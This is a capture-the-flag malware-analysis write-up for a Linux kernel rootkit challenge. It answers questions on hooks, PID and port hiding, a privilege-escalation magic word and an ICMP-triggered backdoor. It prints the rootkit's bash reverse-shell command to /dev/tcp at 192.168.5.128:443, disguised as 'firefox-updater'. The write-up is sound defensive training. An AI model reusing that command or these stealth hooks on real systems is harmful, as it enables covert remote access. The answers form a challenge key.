# MALOPS

---

## **Singularity**

---

Categories: Rootkit

Level: easy

Tools: IDA Pro

Creator: MalOps Team

---

### Scenario

Our primary web server, critical to our daily operations, has been compromised. Over the past few weeks, our network monitoring tools have been flagging unusual outbound communications to an unknown command-and-control server on an unconventional port. The Digital Forensics and Incident Response (DFIR) team was immediately activated to investigate the anomaly. Initial analysis of the running processes and network connections on the live system revealed nothing out of the ordinary, suggesting a sophisticated attacker attempting to maintain stealth. Suspecting a kernel-level threat, the DFIR team captured a full memory dump of the compromised server for offline analysis. During the memory analysis, the team uncovered traces of a sophisticated Linux rootkit. This rootkit was actively hiding its presence and maintaining persistent access to our server. The DFIR team has successfully recovered the malicious kernel modules from the memory image. As a malware analyst, you have been provided with the recovered malicious modules. Your objective is to perform a thorough analysis of the rootkit and determine its capabilities.

---

### **Question 1**

**What is the SHA256 hash of the sample?**

Answer:

```bash
sha256sum singularity.ko 
0b8ecdaccf492000f3143fa209481eb9db8c0a29da2b79ff5b7f6e84bb3ac7c8  singularity.ko
```

---

### **Question 2**

**What is the name of the primary initialization function called when the module is loaded?**



Answer:

```bash
**init_module**
```

---

### **Question 3**

**How many distinct feature-initialization functions are called within above mentioned function?**



**Answer:**

```bash
15
```

---

### **Question 4**

**The reset_tainted_init function creates a kernel thread for anti-forensics. What is the hardcoded name of this thread?**



**Answer:**

```bash
zer0t
```

---

### **Question 5**

**The add_hidden_pid function has a hardcoded limit. What is the maximum number of PIDs the rootkit can hide?**



```bash
cmp [hidden_count], 20h   ; 0x20 = 32 decimal
je  return
```

Answer

```bash
32
```

---

### Question 6

**What is the name of the function called last within init_module to hide the rootkit itself?**



**Answer:**

```bash
module_hide_current
```

---

### **Question 7**

**The TCP port hiding module is initialized. What is the hardcoded port number it is configured to hide (decimal)?**

**Analysis:**

Starting from `init_module`, the function `hiding_tcp_init` (at `0xe00`) is one of the 15 feature-initialization calls. Decompiling it shows it calls `fh_install_hooks` with a hook table called `new_hooks`.

The actual port filtering logic lives in the two hooked functions `hooked_tcp4_seq_show` (`0xd40`) and `hooked_tcp6_seq_show` (`0xb50`), which replace the kernel's legitimate TCP sequence show handlers to filter out specific connections from `/proc/net/tcp` and `/proc/net/tcp6`.

In `hooked_tcp4_seq_show`, the port comparison appears as:



the raw bytes are `46 A1`. Since port numbers are stored in **network byte order (big-endian)**, byte-swapping gives `0x46A1` = **18081** in decimal.

ANSWER:

```bash
18081
```

---

### Question 8

**What is the hardcoded "magic word" string, checked for by the privilege escalation module?**

start with **`become_root_init`** function it has **`fh_install_hooks`  which takes two arguments 10, hooks**

**`fh_install_hooks(hooks, 10)`**



Now — what is `hooks`?

`hooks` is a **global variable**.

if we check .ro sections 



Answer:

```bash
babyelephant
```

---

### Question 9

**How many hooks, in total, does the become_root_init function install to enable privilege escalation?**

**Analysis:**

Starting from `init_module`, `become_root_init` is the 3rd feature-initialization function called. Decompiling it at address `0x750` reveals a single call:c

```c
int __cdecl become_root_init()
{
  return fh_install_hooks(hooks, 0xAu);
}
```

The function delegates entirely to `fh_install_hooks`, passing two arguments:

- `hooks` — the array of hook structures to install
- `0xAu` — the count of hooks, which is **10** in decimal

The second argument to `fh_install_hooks` is the hook count, meaning the rootkit installs **10 hooks** in total for its privilege escalation functionality. These hooks intercept kernel functions to allow unprivileged processes to escalate to root.

Answer:

```c
10
```

### Question 10

**What is the hardcoded IPv4 address of the C2 server?**

From our earlier analysis, we already saw a hardcoded IP address in `hooked_tcp4_seq_show`! But let me verify and check if there are any others.



---

### Question 11

**What is the hardcoded port number the C2 server listens on?**

Function: **`spawn_revshell`**

```c
snprintf(cmd, 0x300u,
    "bash -c 'PID=$$; kill -59 $PID; exec -a \"%s\" /bin/bash &>/dev/tcp/%s/%s 0>&1' &",
    "firefox-updater",
    "192.168.5.128",
    "443");
```


Answer:

```c
443
```

---

### Question 12

**What network protocol is hooked to listen for the backdoor trigger?**

From the `hook_icmp_rcv` function at `0x4a60`, the rootkit hooks the ICMP receive handler and checks for:

```c
if ( *((_DWORD *)v5 + 3) == trigger_ip   // source IP == 192.168.5.128
    && *v7 == 8                           // ICMP type 8 = Echo Request (ping)
    && *((_WORD *)v7 + 3) == 0xCF07 )    // magic value in ICMP payload
```

When a specially crafted **ICMP Echo Request (ping)** packet arrives from `192.168.5.128` with the magic value `0xCF07` in the payload, it triggers `spawn_revshell` — connecting back to the C2 server at `192.168.5.128:443`.

Answer:

```c
icmp
```

---

### Question 13

**What is the "magic" sequence number that triggers the reverse shell (decimal)?**

```c
cmp word ptr [r12+6], 0CF07h
```



This is a 16-bit comparison stored in network byte order (big-endian). So the bytes are `CF 07`, which byte-swapped gives `0x07CF`

The magic sequence number is **1999**.

**Answer**

```c
1999
```

---

### Question 14

**When the trigger conditions are met, what is the name of the function queued to execute the reverse shell?**



**Answer:**

```c
spawn_revshell
```

---

### Question 15

**The spawn_revshell function launches a process. What is the hardcoded process name it uses for the reverse shell?**



Answer:

```c
firefox-updater
```

---

---